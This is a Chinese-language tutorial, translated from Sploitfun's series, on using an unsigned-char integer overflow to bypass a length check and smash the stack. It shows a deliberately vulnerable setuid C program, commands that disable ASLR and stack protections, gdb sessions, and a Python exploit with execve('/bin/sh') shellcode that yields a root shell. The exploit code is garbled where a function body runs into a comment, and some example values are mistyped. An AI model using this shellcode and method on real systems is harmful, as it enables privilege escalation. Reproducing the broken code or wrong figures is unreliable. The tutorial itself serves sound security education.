

CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-整型溢出利用](http://www.csyssec.org/20161230/integerflow/)》与作者信息：CSysSec出品  

VM Setup: Ubuntu 12.04 (x86)

注：本文中overflow指上溢出，underflow指下溢出。默认情况下，溢出指的都是上溢出。 

## 0X01 什么是整型上溢出

存储的数值大于支持的最大上限值，即为整型溢出。整型溢出本身不会直接导致任意代码执行，但是它会导致栈溢出或堆溢出，而后两者都会导致任意代码执行。本文我只谈论导致栈溢出的整型溢出，而导致堆溢出的整型溢出我会放在以后的文章中单独讲。

数据类型大小和范围：
  

当我们要存储的数值大于支持的最大上限值时，数值就会错乱。打个比方，如果我们把2147483648存进有符号整型数据，那么这串数字就会错乱，其值会变为-21471483648。这就叫做整型溢出，并且这种溢出有可能导致任意代码执行。  

## 0X02 整型下溢出（Integer underflow）

与整型上溢出类似，存储数值小于支持的最小下限值，即为整型下溢出。打个比方，如果我们把-2147483649存进有符号整型数据，那么这串数字就会错乱，其值会变为21471483647。这就叫做整型下溢出。本文中我虽然只讲整型上溢出，但是同样的技术也适用于整型下溢出。  

漏洞代码：
``` c
//vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void store_passwd_indb(char* passwd) {
}
void validate_uname(char* uname) {
}
void validate_passwd(char* passwd) {
 char passwd_buf[11];
 unsigned char passwd_len = strlen(passwd); /* [1] */ 
 if(passwd_len >= 4 && passwd_len <= 8) { /* [2] */
  printf("Valid Password\n"); /* [3] */ 
  fflush(stdout);
  strcpy(passwd_buf,passwd); /* [4] */
 } else {
  printf("Invalid Password\n"); /* [5] */
  fflush(stdout);
 }
 store_passwd_indb(passwd_buf); /* [6] */
}
int main(int argc, char* argv[]) {
 if(argc!=3) {
  printf("Usage Error:   \n");
  fflush(stdout);
  exit(-1);
 }
 validate_uname(argv[1]);
 validate_passwd(argv[2]);
 return 0;
}
```
编译命令：

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
上述漏洞程序的第[1]行存在整型溢出。strlen()返回的类型是size_t（无符号整型），却被存储在无符号字符串类型中。因此，任意超过无符号字符串数据类型支持的最大上限值的数据都会导致整型溢出。这样一来，当密码长度为261时，261就会被错乱存储在‘passwd_len’变量中，值会变为5。正是由于这种整型溢出漏洞，第[2]行执行的边界检查才能被绕过，从而导致栈缓冲区溢出！而在这一篇文章中我们知道，栈缓冲区溢出会导致任意程序执行。  

为了让大家更好地理解漏洞利用代码，我们在对它做进一步的分析之前，先来反汇编并画出漏洞代码的堆栈布局吧！  

反汇编：

```
(gdb) disassemble validate_passwd 
Dump of assembler code for function validate_passwd:
 //Function Prologue
 0x0804849e <+0>: push %ebp                               //backup caller's ebp
 0x0804849f <+1>: mov %esp,%ebp                           //set callee's ebp to esp
 0x080484a1 <+3>: push %edi                               //backup edi
 0x080484a2 <+4>: sub $0x34,%esp                          //stack space for local variables
 0x080484a5 <+7>: mov 0x8(%ebp),%eax                      //eax = passwd
 0x080484a8 <+10>: movl $0xffffffff,-0x1c(%ebp)           //String Length Calculation -- Begins here
 0x080484af <+17>: mov %eax,%edx
 0x080484b1 <+19>: mov $0x0,%eax
 0x080484b6 <+24>: mov -0x1c(%ebp),%ecx
 0x080484b9 <+27>: mov %edx,%edi
 0x080484bb <+29>: repnz scas %es:(%edi),%al
 0x080484bd <+31>: mov %ecx,%eax
 0x080484bf <+33>: not %eax
 0x080484c1 <+35>: sub $0x1,%eax                          //String Length Calculation -- Ends here
 0x080484c4 <+38>: mov %al,-0x9(%ebp)                     //passwd_len = al
 0x080484c7 <+41>: cmpb $0x3,-0x9(%ebp)                   //if(passwd_len <= 4 )
 0x080484cb <+45>: jbe 0x8048500 <validate_passwd+98>     //jmp to 0x8048500
 0x080484cd <+47>: cmpb $0x8,-0x9(%ebp)                   //if(passwd_len >=8)
 0x080484d1 <+51>: ja 0x8048500 <validate_passwd+98>      //jmp to 0x8048500
 0x080484d3 <+53>: movl $0x8048660,(%esp)                 //else arg = format string "Valid Password"
 0x080484da <+60>: call 0x80483a0 <puts@plt>              //call puts
 0x080484df <+65>: mov 0x804a020,%eax                     //eax = stdout 
 0x080484e4 <+70>: mov %eax,(%esp)                        //arg = stdout
 0x080484e7 <+73>: call 0x8048380 <fflush@plt>            //call fflush
 0x080484ec <+78>: mov 0x8(%ebp),%eax                     //eax = passwd
 0x080484ef <+81>: mov %eax,0x4(%esp)                     //arg2 = passwd
 0x080484f3 <+85>: lea -0x14(%ebp),%eax                   //eax = passwd_buf
 0x080484f6 <+88>: mov %eax,(%esp)                        //arg1 = passwd_buf
 0x080484f9 <+91>: call 0x8048390 <strcpy@plt>            //call strcpy
 0x080484fe <+96>: jmp 0x8048519 <validate_passwd+123>    //jmp to 0x8048519
 0x08048500 <+98>: movl $0x804866f,(%esp)                 //arg = format string "Invalid Password"
 0x08048507 <+105>: call 0x80483a0 <puts@plt>             //call puts
 0x0804850c <+110>: mov 0x804a020,%eax                    //eax = stdout
 0x08048511 <+115>: mov %eax,(%esp)                       //arg = stdout
 0x08048514 <+118>: call 0x8048380 <fflush@plt>           //fflush
 0x08048519 <+123>: lea -0x14(%ebp),%eax                  //eax = passwd_buf
 0x0804851c <+126>: mov %eax,(%esp)                       //arg = passwd_buf
 0x0804851f <+129>: call 0x8048494                        //call store_passwd_indb
 //Function Epilogue
 0x08048524 <+134>: add $0x34,%esp                        //unwind stack space
 0x08048527 <+137>: pop %edi                              //restore edi
 0x08048528 <+138>: pop %ebp                              //restore ebp
 0x08048529 <+139>: ret                                   //return
End of assembler dump.
(gdb)
```
堆栈布局：  
  


刚才讲到，一个长度为261的密码会绕过边界检查，并且允许我们覆盖存储于栈内的返回地址。那么好，我们来通过发送一串A的方法进行测试。  

## 0X03 利用整型溢出漏洞

测试第一步：这样做是否会覆盖返回地址？  

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*261'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*261'`
Valid Password
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
测试第二步：来自目标缓冲区的偏移量是什么？  

在这里我们来找找缓冲区‘passed_buf’中返回地址的偏移处于什么位置。之前我们已经反汇编并画出了validate_passwd()的堆栈布局，那么现在就试着找出代码的偏移位置信息吧！由堆栈布局可以看出，返回地址位于缓冲区‘passwd_buf’的偏移(0x18)处。(0x18)计算方式如下：  

0X03 0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4  
其中：

0xb 是 ‘passwd_buf’ 大小  
0x1 是 ‘passwd_len’ 大小  
0x4 是 对齐空间  
0x4 是 EDI  
0x4 是调用者的EBP  
这样一来，用户输入 “A” 24 + “B” 4 + “C” * 233，就能以一串“A”覆盖passwd_buf, passwd_len, 对齐空间和调用者的EBP，以“BBBB”覆盖返回地址，以一串C覆盖剩余空间。  

``` 
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
上述输出结果表明攻击者已然获得返回地址的控制权限。存储于栈(0xbffff1fc)中的返回地址已被“BBBB”覆盖。掌握了以上信息，我们就可以写出能实现任意代码执行的漏洞利用代码了。  

漏洞利用代码：  

``` python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
arg1 = "sploitfun"
#Stack address where shellcode is copied.
ret_addr = 0xbffff274
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",numunk + RA + NOP's + Shellcode
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108
print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
``` 
执行上述漏洞利用程序可以获取root shell，如下所示  

``` bash
$ python exp.py 
Calling vulnerable program
Valid Password
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
##　参考文章

[phrack-integerflow](http://phrack.org/issues/60/10.html)